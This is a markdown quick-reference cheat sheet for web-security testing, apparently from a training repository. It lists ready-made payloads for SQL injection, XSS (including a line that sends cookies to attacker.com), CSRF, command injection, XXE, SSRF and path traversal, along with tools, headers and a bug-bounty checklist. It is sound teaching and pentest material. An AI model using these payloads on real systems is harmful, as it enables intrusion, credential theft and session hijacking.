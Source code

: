 # Quick Reference: Web Security Vulnerabilities

Fast lookup guide for common web vulnerabilities, payloads, and prevention techniques.

## 🔍 Quick Detection

| Vulnerability | Quick Test | Tool |
|--------------|------------|------|
| SQL Injection | `' OR '1'='1` | SQLMap |
| XSS | `<script>alert(1)</script>` | Burp Suite |
| CSRF | Remove/modify token | Browser DevTools |
| Command Injection | `; whoami` | Manual testing |
| XXE | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Burp Suite |
| SSRF | `url=http://localhost` | Burp Collaborator |
| Path Traversal | `../../../etc/passwd` | Manual testing |
| Open Redirect | `?url=http://evil.com` | Manual testing |

## 💉 SQL Injection - Quick Payloads

```sql
-- Authentication bypass
admin' --
admin' #
' OR 1=1--
admin' OR '1'='1

-- UNION injection (2 columns)
' UNION SELECT NULL,NULL--
' UNION SELECT username,password FROM users--

-- Blind SQLi
' AND 1=1--  (true)
' AND 1=2--  (false)
' AND SLEEP(5)--

-- Database enumeration
' UNION SELECT database(),NULL--
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

## 🎭 XSS - Quick Payloads

```html
<!-- Basic -->
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>

<!-- Cookie stealing -->
<script>fetch('http://attacker.com/?c='+document.cookie)</script>

<!-- Bypass filters -->
<ScRiPt>alert(1)</sCrIpT>
<img src=x onerror="alert(String.fromCharCode(88,83,83))">
```

## 🔐 CSRF - Quick Test

```html
<!-- Auto-submit form -->
<form action="http://target.com/transfer" method="POST">
    <input name="to" value="attacker">
    <input name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

## 💻 Command Injection - Quick Payloads

```bash
; ls -la
&& whoami
| cat /etc/passwd
`whoami`
$(cat /etc/passwd)

# Bypass spaces
cat</etc/passwd
cat$IFS/etc/passwd
```

## 🔀 XXE - Quick Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

## 🌐 SSRF - Quick Tests

```
http://localhost
http://127.0.0.1
http://169.254.169.254/latest/meta-data/  (AWS)
file:///etc/passwd
```

## 🔓 Path Traversal - Quick Payloads

```
../../../etc/passwd
....//....//....//etc/passwd
..%2f..%2f..%2fetc%2fpasswd
```

## 🔑 Authentication Testing

```bash
# Default credentials
admin:admin
admin:password
root:root

# JWT manipulation
# Change algorithm to "none"
# Decode, modify payload, encode

# Session fixation
?PHPSESSID=attacker_session_id
```

## 🛠️ Essential Tools

| Tool | Purpose | Command |
|------|---------|---------|
| **Burp Suite** | Web proxy & scanner | GUI application |
| **SQLMap** | SQL injection | `sqlmap -u "URL"` |
| **OWASP ZAP** | Web scanner | `zap-cli quick-scan URL` |
| **Nikto** | Web server scanner | `nikto -h URL` |
| **wfuzz** | Web fuzzer | `wfuzz -w wordlist URL/FUZZ` |
| **ffuf** | Fast fuzzer | `ffuf -w wordlist -u URL/FUZZ` |

## 🔐 Security Headers

```
Content-Security-Policy: default-src 'self'
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000
X-XSS-Protection: 1; mode=block
```

## 🐛 Bug Bounty Quick Checklist

- [ ] Test all input fields for SQLi
- [ ] Test reflected parameters for XSS
- [ ] Check for CSRF tokens on state-changing operations
- [ ] Test file upload functionality
- [ ] Look for IDOR in URLs (user_id, document_id, etc.)
- [ ] Test for open redirects
- [ ] Check for SSRF in URL parameters
- [ ] Test XXE if XML input is accepted
- [ ] Look for exposed .git, .env, config files
- [ ] Test API endpoints for authentication bypass
- [ ] Check rate limiting on sensitive endpoints
- [ ] Test password reset functionality
- [ ] Look for subdomain takeovers
- [ ] Test CORS configurations

## 📚 Quick References

- **OWASP Top 10**: https://owasp.org/www-project-top-ten/
- **PayloadsAllTheThings**: https://github.com/swisskyrepo/PayloadsAllTheThings
- **HackerOne Reports**: https://hackerone.com/hacktivity
- **PortSwigger Cheat Sheets**: https://portswigger.net/web-security/sql-injection/cheat-sheet

## ⚠️ Legal Notice

**IMPORTANT**: Only test on:
- Your own applications
- Bug bounty programs
- Authorized penetration tests
- Training platforms (WebGoat, DVWA, Juice Shop, etc.)

Unauthorized testing is illegal and unethical!

---

For detailed explanations and prevention techniques, see:
- [Web Security Cheatsheet](../cheatsheets/web-security.md)
- [Web Security Exercises](./README.md)
